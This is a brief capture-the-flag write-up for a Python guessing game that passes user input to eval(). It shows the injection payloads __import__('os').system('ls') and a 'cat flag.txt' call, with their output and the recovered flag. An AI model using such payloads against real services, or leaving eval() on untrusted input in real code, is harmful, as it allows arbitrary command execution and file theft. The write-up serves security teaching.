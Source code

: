 The primary vulnerability in this challenge is the use of eval(). This function allows arbitrary code execution, which can be exploited to bypass the need to guess the number. 

Since eval() executes the input as code, we can input python code that reads and prints the
flag directly, bypassing the number guessing logic

First we can input ```__import__('os').system('ls')```
We get:
```What is the number?: __import__('os').system('ls')                    
chall.py
flag.txt

You lost lol
```
Then we input ```__import__('os').system('cat flag.txt')```
We get:
```wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}
You lost lol```

Flag is: ```wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}```
